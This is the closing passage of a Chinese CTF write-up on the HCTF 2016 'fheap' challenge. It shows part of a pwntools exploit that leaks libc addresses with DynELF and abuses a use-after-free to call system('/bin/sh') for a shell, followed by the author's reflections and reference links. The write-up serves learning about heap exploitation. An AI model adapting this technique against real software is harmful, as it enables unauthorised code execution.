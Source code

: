 ```
	delete(1)
	p.recvuntil('b'*0x8)
	data = p.recvline()[:-1]
#    gdb.attach(p)
	d = DynELF(leak, proc_base, elf=ELF('./fheap'))
	system_addr = d.lookup('system', 'libc')
	print "system_addr:", hex(system_addr)

	#part3
	delete(0)
	data='/bin/sh;' + '#' * (0x18 - len('/bin/sh;')) + p64(system_addr)
	create(0x20, data)
	delete(1)
	p.interactive()

if __name__ == '__main__':
	pwn()
```
### 心得
> 这是我第一次接触堆方面的题, 说实话这个过程实在很苦. 
>> 1. 网上找的相关文章, 水平参差不齐, EXP基本不能成功的GetShell. 
>> 2. 调试方面的锅, 不能直接调试.
>> 3. 堆方面的知识太少, 还得练.

**最后, 与君共勉, 加油!!!**
### 相关链接:
1. [逆向安全系列：Use After Free漏洞浅析](https://www.anquanke.com/post/id/85281) (EXP有效)
2. [fast-bin内存机制的利用探究](https://cartermgj.github.io/2016/12/01/Hctf-jiushigan/) (调试新方法, 针对地址随机化)
3. [hctf2016 fheap学习(FreeBuf发表的官方解法)](http://www.cnblogs.com/shangye/p/6156391.html) (知识点较全)
4. [HCTF开源Github](https://github.com/vidar-team/HCTF2016)
5. [相关文件下载](https://github.com/BBS-Bill-Gates/CTF/tree/master/2016/HCTF/fheap)
